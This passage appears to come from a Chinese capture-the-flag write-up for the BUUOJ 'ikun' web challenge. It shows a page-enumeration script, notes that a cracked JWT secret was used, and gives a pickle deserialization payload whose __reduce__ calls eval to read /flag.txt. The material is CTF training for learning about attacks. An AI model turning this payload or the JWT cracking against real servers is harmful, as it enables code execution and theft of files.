 ~~~python
            raise FilterException(args[0].stack[-2])
        return func(*args,**kwargs)
    return wrapper

def loads(str):
    file = StringIO(str)
    unpkler = Unpkler(file)
    unpkler.dispatch[REDUCE] = _hook_call(unpkler.dispatch[REDUCE])
    return unpkler.load()



if __name__ == "__main__":
    app.run()
~~~



##### [CISCN2019 华北赛区 Day1 Web2]ikun

[地址](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web2]ikun)

~~~python
import requests

for i in range(1,200):
    url = f"http://069c9d7a-5631-41ed-9c9e-3b45a3d7c882.node4.buuoj.cn:81/shop?page={i}"
    b = requests.get(url=url)
    if 'lv6.png' in b.text:
        print(i)
#	181
~~~

jwt爆破出密钥：1Kun

exp

~~~python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
~~~























